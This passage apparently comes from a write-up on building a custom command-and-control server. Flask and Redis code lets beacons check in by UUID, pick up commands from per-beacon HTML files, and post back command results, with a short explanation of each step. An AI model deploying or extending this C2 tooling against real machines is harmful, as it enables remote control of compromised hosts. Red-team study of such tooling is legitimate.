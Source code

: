 ```python
        return ('')
```
Here, when a beacon first checks in, we create an HTML file named after their UUID that they set.
To avoid any nefariour command injection through the APPSESSIONID parameter, we filter out anything not needed for the UUID.

Further requests from the beacon are sent to their dedicated UUID URL:

```python
@app.route('/<path:filename>', methods=['GET'])
def index(filename):
    if request.method == 'GET':
        bID = {request.headers['APPSESSIONID']}
        name = request.headers['RESPONSE']
        print(f'Host {bID} grabbed command')
        bID = str(bID)
        if set(bID).difference(string.ascii_letters + string.digits):
         # We're not going to bother with input sanitization here
         # If we receive special characters just drop it entirely
         pass
        elif set(name).difference(string.ascii_letters + string.digits):
         # We're not going to bother with input sanitization here
         # If we receive special characters just drop it entirely
         pass
        else:
         with open(f'{bID}.html') as f:
             content = f.readlines()
         for line in content:
             cmd = line
         conn.hset('beacons', f'{bID}', f'{cmd}') # Add the beacon ID and command to the redis DB
         date = datetime.datetime.now()
         conn.hset('beacons', f'{date}', f'{bID} + {cmd}') # Create cmd history
         conn.hset('beacons', f'{name}', f'{bID}')
         return send_from_directory('.', filename)
    return jsonify(request.data)
```
The beacon sends a GET for its specific page and again we are just dropping requests with special characters. Once it finds
the page, we read the command out of it and respond back with what should be executed, also adding a command history to a Redis database.

Finally, to get the results of the command:

```python
@app.route("/schema", methods=['POST'])
def results():
    if request.method == 'POST':
        bID = {request.headers['APPSESSIONID']}
        bID = str(bID)
        if set(bID).difference(string.ascii_letters + string.digits):
         # We're not going to bother with input sanitization here
         # If we receive special characters just drop it entirely
         pass
        else:
         total = f'Result: {request.data} from beacon: {bID}'
         response = request.data
         response = str(response)
         response = response.strip()
         print(response)
         conn.hset("beacons", bID, total)
         return 'HELO'
```
